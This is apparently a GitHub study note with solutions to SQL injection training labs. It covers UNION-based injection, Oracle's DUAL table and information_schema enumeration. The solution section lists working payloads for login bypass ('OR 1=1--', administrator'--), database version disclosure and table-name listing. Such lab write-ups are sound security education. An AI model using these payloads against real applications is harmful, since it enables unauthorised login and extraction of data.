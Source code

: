## How to:

1. To test the DB: Use `DUAL` Table in Oracle.
2. Can perform SQLI without Union:
  - Manipulating WHERE clauses.
  - Commenting out the remaining query
  - Subqueries
3. To Test SQLi: 1st Determine the Column Numbers > 
> Union merge the query in the Existing query.
- <img width="300" alt="image" src="https://github.com/IOxCyber/EssentialsCy/assets/40174034/bd9e2d73-516e-4903-995d-871992768e89">
4. The `information_schema.tables` table provides metadata information about tables within the RDBMS database.
- information_schema.tables, information_schema.columns, information_schema.views, information_schema.schemata
```
table_catalog: The name of the database/catalog.
table_schema: The schema or namespace containing the table.
table_name: The name of the table.
table_type: The type of the table, such as "BASE TABLE" or "VIEW".
```

## Solution:
- Lab 1: Retrieval of Hidden Data(Where): `Modify the category parameter, giving it the value '+OR+1=1--`
- Lab 2: SQL injection vulnerability allowing login bypass: `Modify the username parameter, giving it the value: administrator'--` or `enter ' OR 1=1-- in username & pwd field`
- Lab 3: Querying the database type and version on Oracle:
    - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union+SELECT+'NULL','NULL'+FROM+DUAL--`
    - Add the Payload in URL `'UNION+SELECT+banner,NULL+FROM+v$version--`

- Lab 4: Querying the database type and version on MySQL and Microsoft:
    - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union+SELECT+NULL+NULL#`,`# to Comment out in MySQL`
    - Add the Payload in URL 'Union+SELECT+@@version,NULL#

- Lab 5: listing the database contents on non-Oracle databases:
    - To know the table name `'Union+Select+table_name,NULL+FROM+information_schema.tables--`












